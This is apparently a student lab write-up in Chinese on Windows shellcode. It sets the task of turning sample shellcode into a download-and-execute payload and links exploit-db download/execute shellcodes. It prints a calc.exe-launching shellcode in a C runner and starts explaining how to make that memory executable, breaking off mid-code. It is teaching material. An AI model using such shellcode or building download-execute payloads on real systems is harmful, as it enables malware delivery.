 # shellcode
## 1 实验要求
* 详细阅读 www.exploit*db.com 中的shellcode。建议找不同功能的，不同平台的 3*4个shellcode解读。
* 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
   * 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数
   * [Windows/x64 * Download File (http://192.168.10.129/pl.exe) + Execute (C:/Users/Public/p.exe) Shellcode (358 bytes)](https://www.exploit*db.com/shellcodes/40821)
   * [Windows/x64 (XP) * Download File + Execute Shellcode Using Powershell (Generator)](https://www.exploit*db.com/shellcodes/36411) 
## 2 实验过程
### PART1 详细阅读 www.exploit*db.com 中的shellcode。建议找不同功能的，不同平台的 3*4个shellcode解读。
#### （1）[Null*Free WinExec Calc.exe Shellcode](https://www.exploit*db.com/shellcodes/48116)  
* 代码：
```c
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char **argv)
{
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```
* 功能：打开计算器。
* 执行：
    * 使用上述代码直接执行：*(为了避免不必要的错误，将其存成.c文件)*  
    报错： 0xC0000005   
    0xC0000005 是Windows系统内部错误代码，表示内存访问异常。表明访问了一个未分配的内存地址，或所访问的内存地址的保护属性不允许该访问操作。比如在内存的保护属性是`readonly`的情况下，写入操作将不被允许。  
    ![](./img/q1*problem1.png)  
    ![](./img/q1*problem1*2.png)  
    由截图可以看出报错中的内存地址正是存放code的起始地址。  
    在主函数起始处下断点，进行调试执行，发现在执行到`(int)(*func)()`处时出错。这一句的作用是调用func并执行，而func指向code，即func的值是code的内存地址。因为它是全局变量，程序运行开始后，就存在内存中，在进程的初始化过程就完成了内存分配，并由进程初始化程序从可执行文件中直接载入内存。由于code是全局变量的同时也是数据，可能会给数据设置可读和可写的内存保护属性。即，可能是内存的保护属性的问题。  
    对原主函数进行如下修改，PAGE_EXECUTE_READWRITE 表示这段内存，是可读可写可执行：  
    ```c
    int main(int argc, char** argv)